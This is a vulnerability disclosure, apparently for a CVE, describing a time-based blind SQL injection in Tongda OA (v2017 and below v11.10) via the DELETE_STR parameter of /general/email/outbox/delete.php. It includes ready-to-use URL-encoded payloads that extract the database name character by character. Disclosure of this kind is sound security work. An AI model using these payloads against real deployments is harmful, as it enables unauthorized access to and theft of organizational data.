 SQL injection vulnerability exists in Tongda OA v2017 and versions below 11.10

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：/general/email/outbox/delete.php

injection parameter:$DELETE_STR



#### 	1.Vulnerability analysis

The parameter $DELETE_STR here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![.\TongDa Sql inject.assets\t1.png](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/t1.png?token=GHSAT0AAAAAACNLZOLMSWI63E34LCCSGHGQZNTDONQ)

At the same time, global parameter filtering is shown in the figure below, and only conventional injection filtering detection is performed.

![[image-20240126094241423](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094241423.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094241423.png?token=GHSAT0AAAAAACNLZOLMRBD2RD2Y7S3XAX2CZNTDPEQ)

#### 	2.Vulnerability verification

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126094806730](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094806730.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094806730.png?token=GHSAT0AAAAAACNLZOLM7QTEEQQ5Z6IJUFRKZNTDPGQ)

If we replace 116 with another value such as 115, then there will be no time delay, thus proving that our injection is successful. There is a sql injection vulnerability here.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095114500](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095114500.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095114500.png?token=GHSAT0AAAAAACNLZOLM7JYOCBZA227JNCQSZNTDPIA)

#### 	3.Exploit

Based on the above verification analysis, the SQL injection vulnerability exists. We can continue to obtain the complete name of the entire database through blind injection.

The second digit of the database is intercepted through blind injection, and the second digit is judged to be the letter d through the delay time, and the ASCII code is 100.

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095822818](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095822818.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095822818.png?token=GHSAT0AAAAAACNLZOLMUQBW3GOCONLUXVEMZNTDPKA)

The third digit of the database is intercepted through blind injection, and the second digit is judged to be '_' through the delay time, and the ASCII code is 95.

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095911470](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095911470.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095911470.png?token=GHSAT0AAAAAACNLZOLNNVSMUA42M2W6UASGZNTDQKQ)

The fourth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter o through the delay time, and the ASCII code is 111.

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126100122531](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100122531.png)

The fifth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter a through the delay time, and the ASCII code is 97.

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126100029696](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100029696.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100029696.png?token=GHSAT0AAAAAACNLZOLNVN6ENR5FH6DJEYYQZNTDQMQ)https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100029696.png?token=GHSAT0AAAAAACNLZOLNVN6ENR5FH6DJEYYQZNTDQMQ

In summary, the complete database name can be obtained based on this sql injection vulnerability: td_oa
